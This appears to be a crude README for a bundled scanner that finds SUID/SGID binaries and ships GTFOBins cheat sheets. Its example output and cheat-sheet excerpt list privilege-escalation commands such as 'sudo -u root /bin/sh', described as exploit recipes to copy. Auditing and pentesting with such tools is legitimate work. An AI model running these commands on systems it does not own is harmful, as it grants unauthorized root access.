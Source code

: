 ## GTFOBins 
What's in the box? <br>
You get two things:<br>

- gtfo.sh - A scanner that finds dangerous binaries you can exploit.<br>

- .gtfodata/ - A folder full of cheat sheets for breaking shit.<br>

### How to Use This Damn Thing<br>

1. Unzip It<br>

bash
unzip gtfo-bundle.zip

2. Run the Scanner<br>
Make it executable and fire it up:<br>

bash
chmod +x gtfo.sh  
./gtfo.sh

<br>
3. What You'll See <br>
The script hunts for SUID/SGID binaries (the kind that can give you root if they're fucked up). When it finds one, it shows: <br>

Where the binary is (like /usr/bin/sudo) <br>

What you can do with it (like sudo or shell tricks) <br>

The actual commands to run (copypasta this shit) <br>

Example output: <br>

text
[!] Found something juicy: /usr/bin/sudo
 [>] Tricks you can pull: sudo, shell
 [>] Sudo exploit:
    sudo sudo /bin/sh
 [>] Shell exploit:
    sudo -u root /bin/sh
How to Read the GTFOBins Cheat Sheets
Every file in .gtfodata/ (like sudo.md) has exploit recipes like this:

markdown
---
functions:
  sudo:
    - code: sudo sudo /bin/sh
  shell:
    - code: sudo -u root /bin/sh
---
functions: - Different ways to abuse it.

sudo: - How to turn sudo into a root shell.

shell: - How to spawn a shell directly.

## Why Bother With This?
Fast as hell - Finds vulnerable binaries in seconds.
No internet needed - All the exploits are right there.

Thanks to GTFOBins.